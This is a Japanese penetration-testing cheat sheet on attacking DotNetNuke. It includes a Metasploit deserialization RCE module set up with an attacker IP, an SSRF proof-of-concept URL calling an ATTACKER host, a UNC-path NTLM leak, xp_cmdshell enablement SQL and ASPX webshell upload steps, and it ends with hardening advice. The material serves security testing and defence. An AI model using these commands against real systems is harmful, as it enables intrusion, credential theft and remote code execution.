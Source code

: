 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

DNNに**管理者**としてログインすると、**RCE**を取得するのは簡単ですが、過去数年で*未認証*および*認証後*の技術がいくつか公開されています。以下のチートシートは、攻撃的および防御的な作業のための最も有用なプリミティブを集めています。

---
## バージョンと環境の列挙

* *X-DNN* HTTPレスポンスヘッダーを確認してください – 通常、正確なプラットフォームバージョンが開示されます。
* インストールウィザードは、`/Install/Install.aspx?mode=install`でバージョンを漏洩します（非常に古いインストールでアクセス可能）。
* `/API/PersonaBar/GetStatus` (9.x)は、低権限ユーザー向けに`"dnnVersion"`を含むJSONブロブを返します。
* 実行中のインスタンスで見る典型的なクッキー：
* `.DOTNETNUKE` – ASP.NETフォーム認証チケット。
* `DNNPersonalization` – XML/シリアライズされたユーザープロファイルデータを含みます（古いバージョン – 下記のRCEを参照）。

---
## 未認証の悪用

### 1. クッキーのデシリアライズによるRCE (CVE-2017-9822 & フォローアップ)
*影響を受けるバージョン ≤ 9.3.0-RC*

`DNNPersonalization`は、組み込みの404ハンドラーが有効な場合、すべてのリクエストでデシリアライズされます。したがって、作成されたXMLは任意のガジェットチェーンとコード実行につながる可能性があります。
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
モジュールは、パッチが適用されているが依然として脆弱なバージョン（CVE-2018-15811/15812/18325/18326）に対して正しいパスを自動的に選択します。 7.x–9.1.xでは**認証なし**で、9.2.x+では*確認済み*の低権限アカウントでの悪用が可能です。

### 2. サーバーサイドリクエストフォージェリ (CVE-2025-32372)
*影響を受けるバージョン < 9.13.8  –  パッチは2025年4月にリリース*

古い`DnnImageHandler`の修正をバイパスすることで、攻撃者はサーバーに**任意のGETリクエスト**を発行させることができます（セミブラインドSSRF）。 実際の影響：

* クラウド展開における内部ポートスキャン / メタデータサービスの発見。
* インターネットからファイアウォールで保護されたホストへの到達。

概念実証（`TARGET`と`ATTACKER`を置き換えてください）：
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
リクエストはバックグラウンドでトリガーされます; コールバックのためにリスナーを監視してください。

### 3. NTLMハッシュの露出 via UNCリダイレクト (CVE-2025-52488)
*影響を受けるバージョン 6.0.0 – 9.x (< 10.0.1)*

特別に作成されたコンテンツにより、DNNは `\\attacker\share\img.png` のような **UNCパス** を使用してリソースを取得しようとします。 Windowsは喜んでNTLMネゴシエーションを行い、サーバーアカウントのハッシュを攻撃者に漏洩させます。 **10.0.1** にアップグレードするか、ファイアウォールでアウトバウンドSMBを無効にしてください。

### 4. IPフィルターバイパス (CVE-2025-52487)
管理者が管理ポータルの保護のために *Host/IPフィルター* に依存している場合、**10.0.1** より前のバージョンはリバースプロキシシナリオで `X-Forwarded-For` を操作することでバイパスされる可能性があることに注意してください。

---
## 認証後のRCE

### SQLコンソール経由
**`Settings → SQL`** の下にある組み込みクエリウィンドウを使用して、サイトデータベースに対して実行できます。 Microsoft SQL Serverでは、**`xp_cmdshell`** を有効にしてコマンドを生成できます:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### ASPXウェブシェルのアップロード経由
1. **`設定 → セキュリティ → その他 → その他のセキュリティ設定`**に移動します。
2. **許可されるファイル拡張子**に`aspx`（または`asp`）を追加し、**保存**します。
3. **`/admin/file-management`**に移動し、`shell.aspx`をアップロードします。
4. **`/Portals/0/shell.aspx`**でトリガーします。

---
## Windowsでの特権昇格
**IIS AppPool\<Site>**としてコード実行が達成されると、一般的なWindows特権昇格技術が適用されます。ボックスが脆弱であれば、次のことを利用できます：

* **PrintSpoofer** / **SpoolFool**を使用して*SeImpersonatePrivilege*を悪用します。
* **Juicy/Sharp Potatoes**を使用して*サービスアカウント*から脱出します。

---
## ハードニング推奨事項（ブルーチーム）

* **9.13.9**（SSRFバイパスの修正）以上に**アップグレード**するか、できれば**10.0.1**（IPフィルターおよびNTLMの問題）にアップグレードします。
* インストール後に残存する**`InstallWizard.aspx*`**ファイルを削除します。
* アウトバウンドSMB（ポート445/139）を無効にします。
* DNN内ではなく、エッジプロキシで強力な*ホストフィルター*を強制します。
* 使用していない場合は`/API/RemoteContentProxy`へのアクセスをブロックします。

## 参考文献

* Metasploit `dnn_cookie_deserialization_rce`モジュールのドキュメント – 実用的な認証なしRCEの詳細（GitHub）。
* GitHubセキュリティアドバイザリーGHSA-3f7v-qx94-666m – 2025年のSSRFバイパスおよびパッチ情報。
{{#include ../../banners/hacktricks-training.md}}
